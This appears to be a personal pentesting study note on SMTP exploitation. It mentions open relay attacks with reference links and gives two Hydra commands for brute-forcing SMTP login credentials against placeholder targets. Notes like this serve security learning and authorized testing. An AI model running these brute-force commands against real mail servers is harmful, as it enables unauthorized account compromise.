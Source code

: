 ```yaml
---
id: Exploitation
aliases: []
tags:
  - Networking/Services/SMTP/Exploitation
---
```


# Exploitation

## Open Relay Attack

> [!todo]
>
> The so-called **Open Relay Attack** can be carried out on many SMTP servers due
> to incorrect configuration

- [HackTricks - Open Relay](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-smtp/index.html#open-relay)

- [Hackviser](https://hackviser.com/tactics/pentesting/services/smtp#open-relay-testing)

<!-- Brute Force {{{-->
## Brute Force

Brute force SMTP authentication credentials using various tools

<!-- Hydra {{{-->
### Hydra

Brute force with [[Hydra]] with user

```sh
hydra -l user@target.com -P <passwords.txt> smtp://<target.com>:587
```

Brute force with [[Hydra]] with username list

```sh
hydra -L <usernames.txt> -P <passwords.txt> smtp://<target.com>:587
```
<!-- }}} -->

<!-- }}} -->
